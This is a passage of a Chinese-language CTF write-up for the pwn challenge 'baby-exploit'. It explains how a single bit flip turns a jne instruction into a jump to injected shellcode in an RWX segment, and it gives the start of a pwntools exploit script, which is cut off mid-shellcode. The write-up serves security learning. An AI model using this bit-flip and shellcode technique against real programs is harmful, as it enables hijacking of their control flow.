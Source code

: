## Pwn

### baby-exploit

題目敘述表示 `baby-reverse` 只需要改動一個 bit，配合 `Has RWX segments` 就可以 getshell，不過這個 bitflip 的位置限制在 `0x80-0x139`，而我們可以控制的 buffer location 在 `0xd7`，因此目標有兩種:

- 改動 bit 使得某個 instruction 能夠 jmp 到 `0xd7`
- 改動 bit 使得讀取輸入的 location 可以被執行到
  - 如果是往這個方向找方法，則只需考慮 `read` 結束後到的 instruction

jump instruction opcode 都是 `0x7X` 的形式，可以先看 `0x70` 的高 4 bits 可以從多少轉來:

```
4: 01100000, 0x60
5: 01010000, 0x50
6: 00110000, 0x30
7: 11110000, 0xf0
```

挑選目標 `4000bb:       75 49                   jne    0x400106`，當更改 `0x49` 為 `0x41`，與下個 instruction `0xbd` 相加後會得到 `0xfe`，而 `0xfe` 距離 `0xd7` 為 `0x27`，在範圍 `0x2e` 當中，因此只需要將 shellcode `0x27` 的位置放上 `jmp -0x29`，就可以跳到 shellcode 的起始位置，並且 shellcode 使用 `read(0, 0x4000d7, 100)`，就可以寫入任意長度的 shellcode。這邊要注意的是，由於 `0x4000bb` 會被程式 decode，因此會需要用到 `baby-reverse` encode 的 function。exploit 如下:

```python
#!/usr/bin/python3

from pwn import *
import sys

context.arch = 'amd64'
jmp_insts = [0x49]

def show():
    for inst in jmp_insts:
        print("--------")
        print("origin: ")
        print("   {0:08b}".format(inst) + f", {hex(inst)}")
        base = 0xbd
        for i in range(8):
            v = (inst ^ (1 << i))
            if v > 0x80:
                vv = (v + base) & 0xff
            else:
                vv = v + base
            print(f"{i}: " + "{0:08b}".format(v) + f", {hex(v)}, {hex(vv)}")

def gen():
    r = process('./babyexploit.py')
    print(f"filename: {r.recvline()}")
    r.sendlineafter('Please enter the byte-offset you want to flip (0x80-0x139): ', '0xbc')
    r.sendlineafter('Please enter the bitposition you want to flip at byte-offset(7-0): ', '0x3')
    r.interactive()

def encode(target):
    target = bytearray(target)
    for i in range(len(target)-1, 0, -1):
        target[i - 1] = target[i - 1] ^ target[i]
    return bytes(target)

def run(fn):
    r = process(fn)
    sc = asm("""
    xor rax, rax
```